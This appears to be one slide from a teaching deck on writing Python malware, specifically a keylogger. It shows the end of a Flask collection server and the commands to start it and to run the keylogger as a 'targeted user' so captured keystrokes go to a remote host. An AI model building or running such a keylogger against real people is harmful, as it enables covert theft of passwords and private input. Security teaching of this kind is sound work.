

Python Malwares (cont.)
Writing a Keylogger (cont.)
Finally, we start the web app
if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
Now, it’s time to launch the keylogger!

First, we will start the flask web server:
$ sudo python3 keylogger_server.py
...
Next, we will run the keylogger through PowerShell as the targeted user, and we will specify the host at which the keylogger server runs:
PS C:\Users\joe\Desktop\keylogger> python .\keylogger.py 192.168.10.179
149